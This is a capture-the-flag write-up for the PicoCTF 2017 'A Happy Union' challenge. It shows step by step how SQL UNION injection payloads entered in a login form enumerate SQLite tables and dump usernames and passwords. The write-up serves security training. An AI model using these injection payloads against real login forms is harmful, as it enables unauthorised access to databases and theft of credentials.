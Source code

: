# PicoCTF 2017- Level 3 - Web Exploitation 2

**Title:** A Happy Union  
**Category:** Web Exploitation  
**Points:** 110  
**Description:**

>I really need access to [website](http://shell2017.picoctf.com:24264/), but I forgot my password and there is no reset. Can you help? I like lite sql :)  

**Hint:**

>A SQL union allows a single query to select values from multiples tables.  

## Solution

This is a simple SQL Union Exploit. Trying to login with the combo:
    login: a' UNION ORDER BY 10--  
    password: a  

Gives us the following error:  
    `select id, user, post from posts where user = 'a' UNION ORDER BY 10–';`  

Let's try to find the databases name:  
    login: ' union SELECT null, null, name FROM sqlite_master--
    password: a

The output gives us the tables name: `posts`, `sqlite_sequence`, `users`

Let's try again but by targetting the `user` table:  
    login: ' union SELECT user, pass, null FROM users--  
    password: a  

The server gives us the admin's password which is the flag: `flag{union?_why_not_onion_9f3a457c104e515c12b0f3b246c1a993}`